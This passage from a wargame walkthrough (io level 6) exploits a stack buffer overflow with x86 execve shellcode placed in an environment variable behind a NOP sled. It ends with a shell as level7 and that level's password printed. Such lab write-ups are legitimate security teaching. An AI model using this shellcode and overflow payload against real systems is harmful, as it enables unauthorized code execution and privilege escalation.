 After being compiled, we can use it like so:

    level6@io:/tmp/aa$ ./getenv LANG
    LANG => 0xbfffff5e

Because the position of the shellcode in memory will depends on the other environment variables, let's export our `LANG` now:

    level6@io:/levels$ export LANG=fr 

Let's export our shellcode in the `SHELLCODE` environment variable and get its address:

    level6@io:/levels$ export SHELLCODE=$(python -c "print '\x90'*40 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'")
    level6@io:/levels$ /tmp/aa/getenv SHELLCODE
    SHELLCODE => 0xbffffe09

And finally let's use the payload previously found with the address. To add a bit of security we can use an address inside the NOP sled, in my case I used `0xbffffe08`.

    level6@io:/levels$ ./level06 $(python -c "print 'A'*40 + ' ' + 'B'*26 + '\x08\xfe\xff\xbf'")
    Bienvenue AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBB
    sh-4.3$ exit
    sh-4.3$ whoami
    level7
    sh-4.3$ cat /home/level7/.pass
    U3A6ZtaTub14VmwV
    sh-4.3$ exit

> U3A6ZtaTub14VmwV
